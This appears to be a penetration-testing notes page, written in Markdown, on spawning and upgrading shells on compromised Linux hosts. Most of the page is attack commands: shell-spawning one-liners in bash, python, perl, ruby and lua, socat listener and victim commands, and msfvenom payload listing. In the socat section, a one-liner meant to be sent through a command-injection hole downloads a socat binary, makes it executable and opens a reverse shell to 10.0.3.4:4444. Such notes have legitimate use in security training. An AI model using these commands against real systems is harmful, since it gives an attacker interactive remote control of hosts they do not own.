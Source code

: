 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```


# Spawn a shell


Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).


Sidenote: Also, you can generate a webshell by using  msfvenom

## Clasification of shells

On a Linux system, the shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function.

There are three main types of shell connections:

| **Shell Type** |  **Description** | 
| ----------- | -------------- |
| [Reverse shell](reverse-shells.md) |  Initiates a connection back to a "listener" on our attack box. | 
| [Bind shells](bind-shells.md) | "Binds" to a specific port on the target host and waits for a connection from our attack box. | 
| [Web shells](web-shells.md) | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |


## Spawn a shell

### bash

```bash
# Upgrade shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


### python

```bash
 # using python for a pseudo terminal
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'
```

### ssh

```bash
/bin/sh -i
```


### perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


### ruby

```bash
ruby:  exec "/bin/sh";
```


### lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

### socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, there exists other options. There are standalone binaries that can be downloaded from this Github repo: [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, run:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

and you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. 

### stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```

